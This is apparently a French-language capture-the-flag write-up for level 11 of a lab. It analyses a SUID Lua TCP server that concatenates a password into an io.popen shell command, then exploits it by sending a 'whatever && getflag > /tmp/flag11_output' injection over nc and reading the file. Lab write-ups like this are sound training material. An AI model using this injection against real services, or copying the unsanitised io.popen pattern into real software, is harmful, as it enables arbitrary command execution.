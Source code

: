 # Niveau 11 : Injection de Commandes via un Script Lua

## Analyse du Programme : `level11.lua`

Le script Lua fourni (`level11.lua`) met en place un serveur TCP simple écoutant sur `127.0.0.1:5151`.

**Fonctionnalité :**

1.  **Écoute les Connexions :** Il attend que les clients se connectent au port 5151 en utilisant `socket.bind` et `server:accept()`.
    ```lua
    local server = assert(socket.bind("127.0.0.1", 5151))
    -- ... plus tard dans la boucle ...
    local client = server:accept()
    ```
2.  **Demande le Mot de Passe :** Lors de la connexion, il envoie une invite "Password: " au client.
    ```lua
    client:send("Password: ")
    ```
3.  **Reçoit l'Entrée :** Il lit la ligne de texte envoyée par le client.
    ```lua
    local l, err = client:receive()
    ```
4.  **Hache l'Entrée :** Il définit une fonction `hash` qui prend l'entrée du client (`pass`) et construit/exécute une commande shell en utilisant `io.popen` pour obtenir le hachage SHA-1.
    ```lua
    function hash(pass)
      prog = io.popen("echo "..pass.." | sha1sum", "r")
      data = prog:read("*all")
      prog:close()
      data = string.sub(data, 1, 40)
      return data
    end
    -- ... appelée plus tard avec ...
    local h = hash(l)
    ```
5.  **Compare le Hachage :** Il compare le hachage SHA-1 calculé (`h`) avec un hachage cible codé en dur.
    ```lua
    if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
        -- Gérer la non-correspondance
    else
        -- Gérer la correspondance
    end
    ```
6.  **Envoie le Résultat :** Il envoie "Gz you dumb\*\n" si les hachages correspondent, ou "Erf nope..\n" sinon.
    ```lua
    client:send("Erf nope..\n");
    -- ou
    client:send("Gz you dumb*\n")
    ```
7.  **Ferme la Connexion :** Il ferme la connexion client.
    ```lua
    client:close()
    ```

Le script s'exécute avec les permissions SUID/SGID pour `flag11`, ce qui signifie que toute commande exécutée via `io.popen` s'exécutera en tant qu'utilisateur `flag11`.

## Vulnérabilité : Injection de Commandes

Le détournement de chemin (path hijacking) du niveau 03 ne fonctionnerait pas ici car le serveur tourne déjà avec son propre environnement lorsque nous démarrons le niveau.
Dans ce cas, la vulnérabilité critique réside dans la fonction `hash`, spécifiquement dans la ligne :

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

Le script concatène directement l'entrée fournie par l'utilisateur (pass) dans la chaîne de commande shell sans aucune désinfection ni échappement. Cela permet à un client malveillant d'injecter des métacaractères shell (comme ;, &&, ||, $(...), `...`) pour exécuter des commandes arbitraires sur le serveur avec les privilèges de l'utilisateur flag11.

## Exploitation
Pour exploiter cela, nous devons nous connecter au serveur et envoyer un code d'exploitation qui inclut un séparateur de commandes suivi de la commande getflag.

Une méthode fiable consiste à rediriger la sortie de getflag vers un fichier que nous pourrons lire plus tard.

1. **Se connecter au serveur**:
    ```bash
    nc 127.0.0.1 5151
    ```
2. **Envoyer le code d'exploitation**: Lorsque le mot de passe est demandé, envoyez une chaîne contenant l'injection de commande. 
    Nous redirigeons la sortie de getflag vers un fichier temporaire (par exemple, /tmp/flag11_output) :
    ```bash
    whatever && getflag > /tmp/flag11_output
    ```
    (Note: Le texte spécifique avant &&, comme "whatever", n'a pas d'importance pour l'injection elle-même)

3. **Recevoir la Réponse du Serveur**: Le serveur répondra probablement par "Erf nope..\n" car la comparaison de hachage échouera (la sortie de getflag n'est pas le hachage attendu).

4. **Lire le Drapeau**: Une fois la connexion fermée, lisez le contenu du fichier de sortie :
    ```bash
    cat /tmp/flag11_output
    ```

Cela affichera le drapeau nécessaire pour se connecter en tant que flag11 (par exemple, Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s).
